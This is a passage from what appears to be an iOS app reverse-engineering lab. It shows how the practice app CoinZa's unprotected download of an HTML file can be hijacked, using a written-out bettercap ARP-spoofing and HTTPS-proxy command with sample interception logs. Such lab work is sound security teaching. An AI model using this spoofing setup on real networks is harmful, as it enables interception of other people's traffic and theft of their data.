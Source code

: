 - This means that every time the `InitialViewController`'s view is loaded, the application will download the `coinza.html` file. This gives an attacker a window to remotely attack a user, because they can perform a MitM attack and return a malicious version of the `coinza.html` file.
- Using `bettercap` you'll be able to target a remote user's device and serve fake TLS certificates and sniff their HTTP _and_ HTTPS traffic.
    - Open the `Settings` application, navigate to `Wi-Fi`, tap on your WiFi's SSID and copy your device's IP.
    - On your computer, run `bettercap` and enter your root password:
    ```bash
    sudo bettercap -eval "set arp.spoof.targets <Device-IP>; arp.spoof on; https.proxy on" --debug
    Password:
    ```
    - You should see something like this:
    ```bash
    [20:41:19] [mod.started] net.recon
    [20:41:19] [session.started] {session.started [some date]] PDT <nil>}
    [20:41:19] [mod.started] events.stream
    [20:41:19] [mod.started] net.recon
    [20:41:19] [sys.log] [dbg] arp.spoof  addresses=[redacted] macs=[] whitelisted-addresses=[] whitelisted-macs=[]
    [20:41:19] [endpoint.new] endpoint [redacted] detected as [redacted] (Apple, Inc.).
    [20:41:19] [endpoint.new] endpoint [redacted] detected as [redacted] (Apple, Inc.).
    [20:41:19] [endpoint.new] endpoint [redacted] detected as [redacted] (Apple, Inc.).
    [20:41:19] [sys.log] [inf] arp.spoof enabling forwarding
    [20:41:19] [mod.started] arp.spoof
    [20:41:19] [sys.log] [inf] https.proxy loading proxy certification authority TLS key from /var/root/.bettercap-ca.key.pem
    [20:41:19] [sys.log] [inf] https.proxy loading proxy certification authority TLS certificate from /var/root/.bettercap-ca.cert.pem
    [20:41:19] [sys.log] [inf] arp.spoof arp spoofer started, probing 1 targets.
    [20:41:19] [sys.log] [dbg] arp.spoof sending 60 bytes of ARP packet to [redacted].
    [20:41:19] [sys.log] [inf] http.proxy enabling forwarding.
    [20:41:19] [sys.log] [dbg] http.proxy applied redirection [en2] (TCP) :443 -> [redacted]:8083
    [20:41:19] [mod.started] https.proxy
    [20:41:19] [sys.log] [inf] https.proxy started on [redacted]:8083 (sslstrip disabled)
    [redacted] > [redacted]  » [20:41:20] [sys.log] [dbg] arp.spoof sending 60 bytes of ARP packet to [redacted]:21.
    [redacted]/24 > [redacted]  » [20:41:21] [sys.log] [dbg] arp.spoof sending 60 bytes of ARP packet to [redacted].
    ```
    - Open the `CoinZa` application on your phone and you should see some logs like these:
    ```bash
    [redacted]/24 > [redacted]  » [20:41:24] [sys.log] [dbg] https.proxy proxying connection from [redacted] to raw.githubusercontent.com
    [redacted]/24 > [redacted]  » [20:41:24] [sys.log] [inf] https.proxy creating spoofed certificate for raw.githubusercontent.com:443
    [redacted]/24 > [redacted]  » [20:41:24] [sys.log] [dbg] Fetching TLS certificate from raw.githubusercontent.com:443 ...
    [redacted]/24 > [redacted]  » [20:41:24] [sys.log] [dbg] https.proxy <  GET raw.githubusercontent.com/ivRodriguezCA/RE-iOS-Apps-Extras-Github/master/Files/coinza.html
    [redacted]/24 > [redacted]  » [20:41:24] [sys.log] [dbg] https.proxy >  GET raw.githubusercontent.com/ivRodriguezCA/RE-iOS-Apps-Extras-Github/master/Files/coinza.html
    [redacted]/24 > [redacted]  » [20:41:25] [sys.log] [dbg] arp.spoof sending 60 bytes of ARP packet to [redacted].
    ```
    - You can verify that the application accepted the certificate provided by `bettercap` because if you tap on the `Read our whitepaper` button, the document shown there is the `coinza.html` file the application just downloaded. Since on line 7 of the `pseudo-code` you can see the `removeFileIfExistsAtPath:` method is called, it means that if an `HTML` file is shown it has to be a fresh download.
    - If you open any other application it will, hopefully, not be able to reach their server because `bettercap` is giving a _spoofed_ certificate for their domain. For example `Twitter` fails to load.